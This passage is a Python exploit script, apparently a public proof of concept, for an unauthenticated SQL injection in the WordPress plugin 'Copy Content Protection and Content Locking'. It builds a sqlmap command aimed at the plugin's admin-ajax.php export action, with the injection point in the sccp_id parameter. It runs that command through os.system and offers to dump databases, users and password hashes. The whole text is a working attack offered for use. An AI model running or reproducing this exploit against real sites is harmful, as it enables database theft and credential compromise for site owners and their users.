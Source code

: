                         [+] Copy Content Protection and Content Locking - SQL Injection
                        [@] Developed by Ron Jost (Hacker5preme)
                        
'''
print(banner)
import argparse
from datetime import datetime
import os

# User-Input:
my_parser = argparse.ArgumentParser(description= 'Copy Content Protection and Content Locking SQL-Injection (unauthenticated)')
my_parser.add_argument('-T', '--IP', type=str)
my_parser.add_argument('-P', '--PORT', type=str)
my_parser.add_argument('-U', '--PATH', type=str)
args = my_parser.parse_args()
target_ip = args.IP
target_port = args.PORT
wp_path = args.PATH

# Exploit:
print('[*] Starting Exploit at: ' + str(datetime.now().strftime('%H:%M:%S')))
print('[*] Payload for SQL-Injection:')
exploitcode_url = r'sqlmap "http://' + target_ip + ':' + target_port + wp_path + r'wp-admin/admin-ajax.php?action=ays_sccp_results_export_file&sccp_id[]=3)*&type=json" '
print('    Sqlmap options:')
print('     -a, --all           Retrieve everything')
print('     -b, --banner        Retrieve DBMS banner')
print('     --current-user      Retrieve DBMS current user')
print('     --current-db        Retrieve DBMS current database')
print('     --passwords         Enumerate DBMS users password hashes')
print('     --tables            Enumerate DBMS database tables')
print('     --columns           Enumerate DBMS database table column')
print('     --schema            Enumerate DBMS schema')
print('     --dump              Dump DBMS database table entries')
print('     --dump-all          Dump all DBMS databases tables entries')
retrieve_mode = input('Which sqlmap option should be used to retrieve your information? ')
exploitcode = exploitcode_url +  retrieve_mode + ' --answers="follow=Y" --batch -v 0'
os.system(exploitcode)
print('Exploit finished at: ' + str(datetime.now().strftime('%H:%M:%S')))
